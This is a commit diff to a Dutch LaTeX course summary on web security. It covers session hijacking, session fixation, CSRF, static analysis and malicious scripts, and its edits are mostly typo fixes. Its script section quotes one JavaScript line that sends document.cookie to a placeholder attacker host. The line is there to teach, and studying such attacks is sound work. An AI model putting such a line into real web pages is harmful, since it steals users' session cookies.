

Before and after one commit to KULeuven-CS/OVS, a LaTeX document (chapters/chapter4.tex): two parts of pages 5 and 8 of 9, joined at a grey line, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
Chapter 4: Zinsstructuur and typo's fixed.

```diff
--- a/chapters/chapter4.tex
+++ b/chapters/chapter4.tex
@@ -120,18 +120,18 @@ E\'enmaal onderdeel van de pagina kan het script de integriteits- en betrouwbaar
 Het tracken van sessies gebeurt doorgaans met cookies. Het authenticatieniveau is doorgaans verbonden met de sessie waardoor, wanneer de hacker de sessie kan overnemen, hij zich kan gedragen als de gebruiker met diens privileges.
 
 \subsubsection{Session Hijacking}
-Session hijacking is een aanval waarbij de aanvaller toegang probeert te krijgen tot de waarde van de sessie-cookie. Dit kan door het netwerk te \textit{sniffen}, door de cookie te stelen aan de hand van een script of door de waarde te gokken.
+Session hijacking is een aanval waarbij de aanvaller toegang probeert te krijgen tot de waarde van de sessie-cookie. Dit kan door het netwerk te \textit{sniffen}, door de cookie te stelen aan de hand van een script of door simpelweg  te gokken.
 
-Tegenmaatregelen hiervoor bestaan uit het gebruiken van SSL/TLS of een \textit{random number}-generator. De cookie beschikt ook over een HTTPS-only-flag wat ervoor zorgt dat de cookie steeds wordt versleuteld.
+Tegenmaatregelen hiervoor bestaan uit het gebruiken van SSL/TLS of een \textit{random number}-generator. De cookie beschikt ook over een HTTPS-only-flag wat ervoor zorgt dat de cookie steeds wordt versleuteld tijdens transport.
 
 \subsubsection{Session Fixation}
 Bij deze aanval forceert de aanvaller de gebruiker om de sessie-ID van de aanvaller te gebruiken. Een eenvoudige tegenmaatregel bestaat uit het vervangen van de session-cookie wanneer het niveau van authenticatie verandert.
 
 \subsubsection{Cross-site Request Forgery (CSRF)}
-Deze aanval bestaat uit een aanvaller die de browser misleidt tot het injecteren van een request in een geautoriseerde sessie.
-Dit kan a.d.h.v. scripting of het insluiten van een niet-lokale resources.
+Deze aanval bestaat uit een aanvaller die de browser misleidt tot het injecteren van een request in een geautoriseerde sessie. Dit kan a.d.h.v. scripting of het insluiten van een niet-lokale resources.
+\\\\
 Tegenmaatregelen bestaan uit het gebruiken van een geheim token en het strikt nakijken van de \textit{origin header}.
-Tenslotte bestaan er ook oplossing langs de kant van de cli\"ent zoals \textit{CsFire}\footnote{\url{https://distrinet.cs.kuleuven.be/software/CsFire/}}.
+Tenslotte bestaan er ook \textit{client-side} oplossing zoals \textit{CsFire}\footnote{\url{https://distrinet.cs.kuleuven.be/software/CsFire/}}.
 
 \begin{figure}[h!]
     \centering
@@ -231,16 +231,16 @@ Tegenmaatregelen kunnen worden genomen in de drie fasen van de ontwikkelingscycl
 
 \paragraph{Onderscheppen} Statische, dynamische of hybride controle van code tijdens de ontwikkelings- en testfase. Deze technieken zijn gebaseerd op een verzameling regels die gevaarlijke patronen onderscheppen.
 \\\\
-Voorbeelden van dergelijke programma's zijn \textit{Fortify Source Code Analyzer}, \textit{FindBugs}, \textit{Coverity Static Analysis}. Deze software kan echter slachtoffer worden van \textit{false-positives} en \textit{false-negatives}.
+Voorbeelden van dergelijke programma's zijn \textit{Fortify Source Code Analyzer}, \textit{FindBugs}, \textit{Coverity Static Analysis}. Deze software kan echter slachtoffer worden van zowel \textit{false-positives} en \textit{false-negatives}.
 
 \subsection{Scripts}
 Hoewel de \textbf{SOP} voorkomt dat script rechtstreeks verbinding maken met een server van de aanvaller kunnen script toch entiteiten aan de webpagina toevoegen die leiden tot een HTTP request naar een script-specifieke server. Als voorbeeld zien we hieronder hoe een script een cookie kan lekken naar een andere server.
 \begin{lstlisting}[caption=Javascript code om cookie te lekken]
 new Image().src = "http://attack.com/?=" + document.cookie;
 \end{lstlisting}
-Het is zelfs mogelijk voor het script om in twee richtingen te communiceren door het insluiten van een script.
+Het is zelfs mogelijk voor het script om in twee richtingen te communiceren met \textit{JSONP}.
 \\\\
-Voorgaande techniek kan gebruikt worden om de session cookie te lekken. Eens hiervan in het bezit kan de aanvaller de hele sessie overnemen. Een andere aanval bestaat uit een script dat willekeurige requests stuurt naar de server van waar het script komt en op die manier bijkomende requests stuurt in de gebruikerssessie.
+Zoals gezegd kan voorgaande techniek gebruikt worden om de session cookie te lekken. Eens hiervan in het bezit kan de aanvaller de hele sessie overnemen. Een andere aanval bestaat uit een script dat willekeurige requests stuurt naar de server van waar het script komt en op die manier bijkomende requests stuurt in de gebruikerssessie.
 
 \subsubsection{Tegenmaatregelen}
 Er zijn twee algemene tegenmaatregelen voor dit probleem:
```
Also changed, not shown: chapters/chapter3.tex (line endings or trailing spaces), chapters/chapter4.tex (18 more changed lines).
